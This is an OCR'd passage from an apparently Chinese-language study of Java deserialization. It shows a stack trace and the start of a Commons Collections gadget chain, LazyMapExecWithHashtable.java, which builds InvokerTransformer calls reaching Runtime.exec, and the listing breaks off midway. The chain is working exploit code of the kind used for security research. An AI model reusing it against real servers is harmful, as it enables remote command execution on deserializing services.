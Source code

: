  [18] java.io.ObjectInputStream.readOrdinaryObject (ObjectInputStream.java:1,801), pc = 181
  [19] java.io.ObjectInputStream.readObject0 (ObjectInputStream.java:1,351), pc = 389
  [20] java.io.ObjectInputStream.readObject (ObjectInputStream.java:371), pc = 19
  [21] VulnerableServer.main (VulnerableServer.java:22), pc = 51

除了package名有些不同，4.0调用栈与3.1相比，没啥变化。

8.3.13) LazyMapExecWithHashtable.java

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" LazyMapExecWithHashtable.java
 * java -cp "commons-collections-3.1.jar:." LazyMapExecWithHashtable "/bin/touch /tmp/scz_is_here"
 */
import java.io.*;
import java.util.*;
import java.lang.reflect.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

/*
 * 从TiedMapEntryExecWithHashSet.java修改而来，这次没有用TiedMapEntry。
 */
public class LazyMapExecWithHashtable
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          cmd         = argv[0];
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
```